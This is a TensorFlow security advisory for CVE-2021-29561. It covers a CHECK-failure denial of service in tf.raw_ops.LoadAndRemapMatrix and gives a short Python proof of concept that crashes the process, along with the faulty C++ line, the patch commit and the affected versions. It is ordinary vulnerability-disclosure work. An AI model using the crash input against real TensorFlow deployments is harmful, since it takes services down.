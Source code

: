 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-049.md
## TFSA-2021-049: `CHECK`-fail in `LoadAndRemapMatrix`

### CVE Number
CVE-2021-29561

### Impact
An attacker can cause a denial of service by exploiting a `CHECK`-failure coming
from `tf.raw_ops.LoadAndRemapMatrix`:

```python
import tensorflow as tf

ckpt_path = tf.constant([], shape=[0], dtype=tf.string)
old_tensor_name = tf.constant("")
row_remapping = tf.constant([], shape=[0], dtype=tf.int64)
col_remapping = tf.constant([1], shape=[1], dtype=tf.int64)
initializing_values = tf.constant(1.0)

tf.raw_ops.LoadAndRemapMatrix(
    ckpt_path=ckpt_path, old_tensor_name=old_tensor_name,
    row_remapping=row_remapping, col_remapping=col_remapping,
    initializing_values=initializing_values, num_rows=0, num_cols=1)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/d94227d43aa125ad8b54115c03cece54f6a1977b/tensorflow/core/kernels/ragged_tensor_to_tensor_op.cc#L219-L222)
assumes that the `ckpt_path` is always a valid scalar.

```cc
const string& ckpt_path = ckpt_path_t->scalar<tstring>()();
```

However, an attacker can send any other tensor as the first argument of
`LoadAndRemapMatrix`. This would cause the rank `CHECK` in `scalar<T>()()` to
trigger and terminate the process.

### Patches
We have patched the issue in GitHub commit
[77dd114513d7796e1e2b8aece214a380af26fbf4](https://github.com/tensorflow/tensorflow/commit/77dd114513d7796e1e2b8aece214a380af26fbf4).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
